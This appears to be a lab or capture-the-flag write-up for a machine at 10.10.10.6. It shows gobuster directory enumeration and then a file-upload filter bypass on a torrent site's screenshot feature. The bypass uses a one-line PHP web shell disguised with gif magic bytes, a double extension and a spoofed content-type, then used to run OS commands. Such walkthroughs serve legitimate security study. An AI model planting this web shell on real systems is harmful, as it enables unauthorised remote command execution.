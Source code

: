 ```bash
gobuster dir -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u 10.10.10.6
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.6
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/12 12:29:18 Starting gobuster in directory enumeration mode
===============================================================
[TRUNCATED]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
[TRUNCATED]
```

Doing a directory brute force of the web app reveals 2 new directories: rename and torrent

## /rename/
![[Pasted image 20220412123200.png]]
/rename/ only reveals the API syntax for an index page.

## /torrent/
![[Pasted image 20220412123328.png]]
/torrent/ reveals what appears to be a torrent hosting site.
- The torrent upload functionality itself doesn't appear to be vulnerable -> there are strong controls in place to ensure the uploaded file is indeed a torrent.
- There is functionality to upload screenshots for the torrent which has weaker controls for ensuring appropriate uploaded content.

![[Pasted image 20220412123620.png]]
- Create a php file with a code execution payload. e.g.
	- ```<?php system($_REQUEST['cmd']); ?>```
- Make the follwing changes to the file:
	- Add the magic bytes for a gif
	- Add a gif extension right before the actual extension
	- Change the content-type to image/gif
- The end result would look like this in Burp:
![[Pasted image 20220412131808.png]]

- Navigate to the uploads directory (/torrent/upload) and click on the file with the php extension.
- Manually enter the specified paramter ('cmd' in this example) and enter an os system command value.
- Submit request and observe output of command is returned in the response.
![[Pasted image 20220412132126.png]]
